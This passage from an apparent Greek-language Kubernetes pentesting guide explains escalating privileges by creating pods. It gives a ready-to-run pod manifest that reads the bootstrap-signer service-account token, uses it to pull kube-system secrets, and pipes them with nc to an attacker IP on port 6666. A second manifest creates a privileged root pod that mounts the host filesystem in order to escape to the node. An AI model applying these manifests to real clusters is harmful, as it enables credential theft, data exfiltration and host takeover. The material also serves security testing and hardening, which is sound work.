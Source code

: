Ένας επιτιθέμενος με άδειες να δημιουργήσει ένα pod, θα μπορούσε να συνδέσει έναν προνομιούχο Λογαριασμό Υπηρεσίας στο pod και να κλέψει το token για να προσποιηθεί τον Λογαριασμό Υπηρεσίας. Αποτελεσματικά, θα κλιμακώσει τα προνόμια σε αυτόν.

Παράδειγμα ενός pod που θα κλέψει το token του λογαριασμού υπηρεσίας `bootstrap-signer` και θα το στείλει στον επιτιθέμενο:
```yaml
apiVersion: v1
kind: Pod
metadata:
name: alpine
namespace: kube-system
spec:
containers:
- name: alpine
image: alpine
command: ["/bin/sh"]
args:
[
"-c",
'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000',
]
serviceAccountName: bootstrap-signer
automountServiceAccountToken: true
hostNetwork: true
```
### Pod Create & Escape

Τα παρακάτω υποδεικνύουν όλα τα προνόμια που μπορεί να έχει ένα κοντέινερ:

- **Privileged access** (απενεργοποίηση προστασιών και ρύθμιση ικανοτήτων)
- **Disable namespaces hostIPC and hostPid** που μπορούν να βοηθήσουν στην κλιμάκωση προνομίων
- **Disable hostNetwork** namespace, δίνοντας πρόσβαση για κλοπή προνομίων cloud των κόμβων και καλύτερη πρόσβαση σε δίκτυα
- **Mount hosts / inside the container**
```yaml:super_privs.yaml
apiVersion: v1
kind: Pod
metadata:
name: ubuntu
labels:
app: ubuntu
spec:
# Uncomment and specify a specific node you want to debug
# nodeName: <insert-node-name-here>
containers:
- image: ubuntu
command:
- "sleep"
- "3600" # adjust this as needed -- use only as long as you need
imagePullPolicy: IfNotPresent
name: ubuntu
securityContext:
allowPrivilegeEscalation: true
privileged: true
#capabilities:
#  add: ["NET_ADMIN", "SYS_ADMIN"] # add the capabilities you need https://man7.org/linux/man-pages/man7/capabilities.7.html
runAsUser: 0 # run as root (or any other user)
volumeMounts:
- mountPath: /host
name: host-volume
```